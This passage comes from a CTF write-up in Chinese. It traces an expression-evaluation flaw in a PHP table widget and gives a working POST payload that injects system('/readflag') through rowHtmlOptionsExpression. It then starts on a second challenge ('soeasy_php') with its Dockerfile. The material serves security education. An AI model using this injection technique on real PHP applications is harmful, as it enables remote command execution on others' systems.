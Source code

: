```php
        }
        else
        {
            echo '<tr><td colspan="'.count($this->columns).'" class="empty">';

            echo "</td></tr>\n";
        }
        echo "</tbody>\n";
    }
```

`renderTableBody()`→`renderTableRow()`

`renderTableRow()`中进入`evaluateExpression()`且`$this->rowCssClassExpression`可控进行命令执行

![Untitled](2022%2004%209316daae4b794d618031f78dc16ff69e/Untitled%203.png)

根目录下flag.txt为空，readflag为可执行文件

payload：

GET: /?action=TestView

POST:

properties[template]={TableBody}&properties[rowHtmlOptionsExpression]=var_dump(system('/readflag'));&properties[data][1]=1

## soeasy_php

```docker
FROM php:7.2.3-fpm

COPY files /tmp/files/
COPY src /var/www/html/
COPY flag /flag

RUN chown -R root:root /var/www/html/ && \
    chmod -R 755 /var/www/html && \
    chown -R www-data:www-data /var/www/html/uploads && \
    sed -i 's/deb.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list && \
    sed -i '/security/d' /etc/apt/sources.list && \
    apt-get update && \
    apt-get install nginx -y && \
    /bin/mv -f /tmp/files/default  /etc/nginx/sites-available/default && \
    gcc /tmp/files/copyflag.c -o /copyflag && \
    chmod 4711 /copyflag && \
    rm -rf /tmp/files && \
    rm -rf /var/lib/apt/lists/* && \
    chmod 700 /flag

CMD nginx&&php-fpm

EXPOSE 80
```
